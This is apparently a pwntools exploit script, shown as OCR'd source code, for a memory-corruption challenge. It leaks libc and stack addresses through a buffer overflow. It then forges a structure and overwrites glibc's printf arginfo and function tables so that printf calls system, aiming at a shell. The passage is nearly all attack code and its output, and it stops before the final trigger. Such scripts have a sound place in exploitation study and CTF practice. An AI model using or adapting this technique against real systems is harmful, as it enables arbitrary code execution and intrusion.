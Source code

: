 ```python
system=libc.symbols['system']
puts=libc.symbols['puts']
exit_fn=libc.symbols['exit']
binsh=next(libc.search(b'/bin/sh\x00'))
environ=libc.sym.environ


print("[+] Leaked gets got address: " + str(hex(gets_leak)))
print("[+] Libc_addr base address at : " + str(hex(libc.address)))
print("[+] Found system at : " + str(hex(system)))
print("[+] Found puts at : " + str(hex(puts)))
print("[+] Found exit_fn at : " + str(hex(exit_fn)))
print("[+] Found shell at : " + str(hex(binsh)))
print("[+] Found environ at : " + str(hex(environ)))



print(f"\n[*] Stage 2: Leak stack addresses")
payload=b"A" * (360) + p64(environ)
target.sendline(payload)
try:
	stack_leak=int((u64(target.recv(0x8).ljust(8,b"\x00"))))
except:
	stack_leak=int((u64(target.recv(0x8).ljust(8,b"\x00"))))
buffer_start=stack_leak - 0x178

print("[+] Leaked stack address : " + str(hex(stack_leak)))
print("[+] Buffer starts at : " + str(hex(buffer_start)))


print(f"\n[*] Stage 3: Format string")
arginfo_table=libc.address + 0x21b8b0# == structure containing forged pointer
function_table=libc.address + 0x21c9c8 # == NOT NULL
print("[+] Found __printf_arginfo_table at : " + str(hex(arginfo_table)))
print("[+] Found __printf_function_table at : " + str(hex(function_table)))



print(f"\n[*] Stage 4: Arbitrary write")
target.sendline(b"")
target.sendline(b"")


# Convert this issue into a format string vulnerability
# Null out the stack for better visibility on our writes
payload=b"\x00" * (360) + p64(buffer_start)
target.sendline(payload)

# start writing on the stack
fake_structure = buffer_start
print("[+] Create fake structure starting at : " + str(hex(fake_structure)))
fake_structure_pointer= buffer_start+504 # where system will be written
print("[+] Create fake structure pointer at : " + str(hex(fake_structure_pointer)))
print("[+] Write system to the fake structure pointer : " + str(hex(fake_structure_pointer)))

write_64(fake_structure_pointer,system)


print(f"[*] Point __printf_arginfo_table to the start of the fake structure i.e {str(hex(fake_structure))}")
write_64(arginfo_table,buffer_start) # tell arginfo_table to use our fake structure, which starts at buffer_start

```